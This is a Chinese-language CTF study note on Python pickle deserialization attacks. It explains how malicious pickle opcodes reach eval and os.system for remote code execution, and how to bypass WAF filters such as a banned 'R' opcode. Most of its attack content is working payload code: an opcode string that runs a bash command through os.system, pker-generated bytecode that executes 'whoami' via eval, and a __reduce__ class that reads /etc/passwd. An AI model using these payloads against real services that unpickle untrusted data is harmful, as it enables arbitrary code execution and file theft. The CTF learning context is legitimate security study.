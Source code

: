 tags:: CTF/Python

- > [参考](https://xz.aliyun.com/t/7012)
- # 原理
	- pickle数据实际上是字节码，加载pickle就是执行这串字节码
	- 我们可以通过构造恶意字节码来调用eval函数，实现RCE
- # 绕WAF
	- payload生成：[[CTF/Python/Pickle/opcode]]
	- 字符串
		- pickle要想支持字符串拼接可以考虑拿到`builtins.getattr`
		- 需要RCE可以找找其他被import的函数
		- 字符串拼接函数在jinja2中有：`jinja2.utils.concat`
			- ```python
			  builtins_opcode = pickle_obj(
			      pickle_stack_global(pickle_string("BINSTRING", "jinja2.utils"), pickle_string("BINSTRING", "concat")),
			      [
			          pickle_tuple(
			              "TUPLE",
			              [pickle_string("BINSTRING", "built"), pickle_string("BINSTRING", "ins")],
			          )
			      ],
			  )
			  ```
		-
	- 字母`R`被禁用
		- 用GLOBAL找到危险函数并用OBJ调用
		- ```python
		  import pickle
		  import pickletools
		  
		  opcode=b'''(cos
		  system
		  S'bash -c "sleep 1"'
		  o.'''
		  pickletools.dis(opcode)
		  pickle.loads(opcode)
		  ```
	- 可以用[这个工具](https://github.com/EddieIvan01/pker)生成
		- 可以实现：
		  collapsed:: true
			- 变量赋值 存到 memo 中，保存 memo 下标和变量名即可
			- 函数调用
			- 类型字面量构造
			- list 和 dict 成员修改
			- 对象成员变量修改
		- ```shell
		  $ cat test/code_breaking
		  getattr = GLOBAL('builtins', 'getattr')
		  dict = GLOBAL('builtins', 'dict')
		  dict_get = getattr(dict, 'get')
		  globals = GLOBAL('builtins', 'globals')
		  builtins = globals()
		  __builtins__ = dict_get(builtins, '__builtins__')
		  eval = getattr(__builtins__, 'eval')
		  eval('__import__("os").system("whoami")')
		  return
		  
		  $ python3 pker.py < test/code_breaking
		  b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
		  ```
- # Pickle文件OPCODE分析
	- `python -m pickletools pickle.pkl`
- # 基础
	- pickle支持
	  id:: 65af7fea-bc74-4284-97a3-e8fbebbd3614
		- 构造任意字符串、字节序列、数字、元组、列表、字典放入栈顶
		- 取全局变量放入栈顶
			- 可以取某模块中的对象，如`__main__.app`或者`jinja2.utils.concat`
		- 调用函数
		- 根据类创建对象
	- 把生成的 bytes 加载即可执行任意代码
	- 对象被 pickle 反序列化时，pickle 会调用对象的`__reduce__`方法（如果有）来获得反序列化的方法
	- ```python
	  #!/usr/bin/python2
	  import pickle
	  import urllib
	  class payload(object):
	      def __reduce__(self):
	         return (eval, ("open('/etc/passwd','r').read()",))
	  a = pickle.dumps(payload())
	  a = urllib.quote(a)
	  print(a)
	  ```
-